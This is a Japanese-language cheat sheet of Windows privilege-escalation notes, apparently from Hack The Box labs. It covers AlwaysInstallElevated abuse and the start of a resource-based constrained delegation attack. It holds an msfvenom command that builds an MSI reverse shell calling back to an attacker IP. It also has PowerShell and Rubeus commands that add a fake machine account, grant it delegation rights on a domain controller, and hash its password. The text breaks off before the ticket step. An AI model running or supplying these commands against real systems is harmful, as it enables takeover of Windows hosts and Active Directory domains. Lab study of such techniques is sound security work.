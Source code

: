 ### AlwaysInstallElevatedがオンの際にできる権限昇格

これら 2 つのレジスタが有効になっている (値が 0x1) 場合  
任意の権限を持つユーザーは*.msiファイルを NT AUTHORITY\SYSTEM としてインストール (実行) できる  
→だからmsi形式のリバースシェルを実行すれば権限昇格できる  

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.36 LPORT=9002 -f msi > payload.msi
```

### 自分の所属するグループにGenericAll権限がある際の権限昇格

GenericAll権限が付与されている場合は、Kerberos リソースベースの制約付き委任攻撃ができる  
→つまり、TGTをリクエストすることができる  
使用するツール: Powermad.ps1 , Rubeus.exe  

まずサーバー側で以下を設定する

新しい偽のコンピューター オブジェクトを AD に追加  
新しい偽のコンピューター オブジェクトに制約付き委任権限を設定  
新しい偽のコンピューターのパスワード ハッシュを生成  
そして、Rubeusを使用して、パスワードハッシュを生成してあげる  

```
# -------- On Server Side
# Upload tools
upload /home/user/Tools/Powermad/Powermad.ps1 pm.ps1
upload /home/user/Tools/Ghostpack-CompiledBinaries/Rubeus.exe r.exe

# Import PowerMad
Import-Module ./pm.ps1

# Set variables
Set-Variable -Name "FakePC" -Value "FAKE01"
Set-Variable -Name "targetComputer" -Value "DC"

# With Powermad, Add the new fake computer object to AD.
New-MachineAccount -MachineAccount (Get-Variable -Name "FakePC").Value -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# With Built-in AD modules, give the new fake computer object the Constrained Delegation privilege.
Set-ADComputer (Get-Variable -Name "targetComputer").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FakePC").Value + '$')

# With Built-in AD modules, check that the last command worked.
Get-ADComputer (Get-Variable -Name "targetComputer").Value -Properties PrincipalsAllowedToDelegateToAccount
```

Rubeus  

```
# With Rubeus, generate the new fake computer object password hashes. 
#  Since we created the computer object with the password 123456 we will need those hashes
#  for the next step.
./Rubeus.exe hash /password:123456 /user:FAKE01$ /domain:support.htb
```
